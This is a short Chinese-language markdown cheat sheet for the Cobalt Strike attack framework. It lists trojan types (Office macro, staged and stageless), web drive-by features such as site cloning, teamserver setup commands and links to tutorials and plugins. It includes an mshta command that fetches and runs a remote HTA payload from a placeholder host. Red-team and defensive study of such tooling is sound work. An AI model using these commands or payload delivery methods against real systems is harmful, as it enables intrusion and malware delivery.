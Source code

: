 https://mp.weixin.qq.com/s/F1H4ReV71gK7JeoYxV3n5g
https://github.com/k8gege/Aggressor/releases/tag/cs


## 工具栏

![](https://s2.loli.net/2022/05/18/ot2CiV7mMeKuLq5.jpg)

攻击
- Office木马, 生成后监制到docm
- 分阶段木马 - 无法选择中转监听器
- 无阶段木马

Web Drive-by:
- Manage 管理当前Team Server开启的所有web服务
- Clone Site 克隆某网站
- Host File 在Team Server的某端口提供Web以供下载某文件
- Scripted Web Delivery 为payload提供web服务以便于下载和执行
- System Profiler 用来获取系统信息:系统版本, Flash版本,浏览器 版本等

## 攻击类型
```bash
# 1. exe
# 2.hta
mshta http://xx/file.hta
```
## 使用
```ts
sleep 0
shell ipconfig
```
## installation
```bash
chomd 777 teamserver
./teamserver 192.168.159.130 pass
```

如果报错,设置内存
```bash
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M -jar cobaltstrike.jar
# jdk11 启动
```

# Article
[全网最全的Cobalt Strike使用教程系列-基础篇](https://mp.weixin.qq.com/s/4KvmV9cdyzPsYHtBlEKGFQ)
[干货|两个超实用的上线Cobaltstrike技巧！](https://mp.weixin.qq.com/s/jGwrVr0iotelS4KivC8pwA)
## plugin
[分享个CobaltStrike插件 Bypass防护添加用户（附下载）](https://mp.weixin.qq.com/s/6nu1dwdvdtnP_6C-nIpMVg)
[Cobalt-Strike之CrossC2插件安装与linux上线](https://mp.weixin.qq.com/s/Fty2S9ettdtTFgJWVTvQNQ)
[CobaltStrike加载插件](https://mp.weixin.qq.com/s/NtxhTkuMGhhRyLUREnZQcA)
